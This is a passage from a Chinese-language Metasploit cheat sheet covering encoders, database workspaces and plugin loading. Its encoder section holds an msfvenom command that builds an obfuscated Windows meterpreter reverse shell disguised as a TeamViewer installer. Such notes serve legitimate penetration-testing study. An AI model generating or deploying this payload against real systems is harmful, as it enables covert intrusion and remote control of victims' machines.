 </table>



### 4. 编码器

```shell
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe
```



### 5. 数据库

```shell
sudo systemctl start postgresql  # 启动 postgresql 数据库
msfdb init  # 启动 MSF 数据库

# 工作区
    workspace # 查看全部工作区
    workspace -a name # 创建工作区
    workspace -d name # 删除指定工作区
    workspace name # 切换到指定工作区

# 导入其他工作 (eg : nmap) 扫描结果，只支持导入 .xml
db_import Target.xml

# 数据库备份
db_export -f xml backup.xml  # 导出到指定文件中

hosts -h  # 主机地址、主机名和我们在扫描和交互过程中找到的有关这些的其他信息
services -h # 包含有关在扫描或交互期间发现的服务的描述和信息
creds -h  # 手机与目标主机交互的凭据
loot -h # 提供拥有服务和用户的概览列表

```

### 6. 插件

> 1. 插件需要安装在 /usr/share/metasploit-framework/plugins

```shell
load nessus  # 加载 nessus 插件

# 下载其他插件 .rd  移动到指定目录下，并进行加载
cp ./Metasploit-Plugins/pentest.rb /usr/share/metasploit-framework/plugins/pentest.rb
load pentest
```



## 三、命令使用

### 1. search 命令
